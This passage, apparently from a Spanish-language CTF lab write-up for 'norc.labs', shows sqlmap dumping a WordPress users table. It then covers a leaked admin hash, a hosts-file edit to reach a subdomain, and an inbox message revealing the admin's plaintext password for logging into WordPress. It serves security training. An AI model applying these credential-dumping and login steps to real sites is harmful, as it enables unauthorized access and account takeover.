 ```
+----+------------------+------------------------------------+----------------------------+------------+-------------+--------------+---------------+---------------------+---------------------+

[12:13:52] [INFO] table 'wordpress.wp_users' dumped to CSV file '/root/.local/share/sqlmap/output/norc.labs/dump/wordpress/wp_users.csv'
[12:13:52] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/norc.labs'

[*] ending @ 12:13:52 /2025-01-18/
```

Vemos que ha funcionado, a parte tambien veremos la informacion de la base de datos de `wordpress` viendo unas credenciales tambien, las cuales probaremos en el propio login.

```
User: admin
Pass: $P$BeNShJ/iBpuokTEP2/94.sLS8ejRo6.
```

Si nosotros intentamos `crackear` ese `hash` `MD5` veremos que no podemos, pero nos fijamos en que obtuvimos esta informacion de aqui `admin@oledockers.norc.labs` parece ser que hay un `subdominio`, por lo que veremos que contiene de la siguiente forma:

```shell
nano /etc/hosts

#Dentro del nano
<IP>           norc.labs oledockers.norc.labs
```

Lo guardamos y ahora nos vamos a esa parte del `subdominio`.

```
URL = http://oledockers.norc.labs/
```

Veremos lo siguiente cuando entremos:

```
Inbox
----------------------------------------------------------------------------------
From: admin@oledockers.norc.labs
Subject: Password Reminder
Hi, this is just in case I forget my password -> admin:wWZvgxRz3jMBQ ZN <--
----------------------------------------------------------------------------------
```

Vemos que la `password` del usuario `admin` es `wWZvgxRz3jMBQ ZN` por lo que probaremos a entrar desde el panel de `wordpress` con dichas credenciales.

## Escalate user www-data

```
User: admin
Pass: wWZvgxRz3jMBQ ZN
```
